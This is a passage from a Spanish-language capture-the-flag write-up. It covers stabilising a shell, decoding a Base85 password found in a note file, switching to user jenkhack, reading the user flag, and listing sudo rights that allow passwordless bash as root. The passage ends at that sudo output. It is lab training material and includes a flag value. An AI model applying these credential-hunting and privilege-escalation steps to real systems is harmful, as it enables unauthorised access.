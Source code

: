```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user jenkhack

Si nos vamos al siguiente directorio.

```shell
cd /var/www/
```

Veremos una carpeta llamada `jenkhack/` y si nos metemos dentro veremos un archivo llamado `note.txt` que dice lo siguiente.

```
jenkhack:C1V9uBl8!'Ci*`uDfP
```

Por lo que vemos son las credenciales del usuario `jenkhack` pero la contraseña esta encriptada en `Base85` y si la desencriptamos, dice lo siguiente.

```
jenkinselmejor
```

Por lo que vemos esa es la contraseña del usuario, asi que nos cambiaremos a el.

```shell
su jenkhack
```

Metemos la contraseña obtenida anteriormente y ya seremos dicho usuario, por lo que leeremos la flag.

> user.txt

```
3635ccd7044e99813883c8a1b95ced04
```

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente.

```
Matching Defaults entries for jenkhack on 0c02f2cd043e:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jenkhack may run the following commands on 0c02f2cd043e:
    (ALL : ALL) NOPASSWD: /usr/local/bin/bash
```
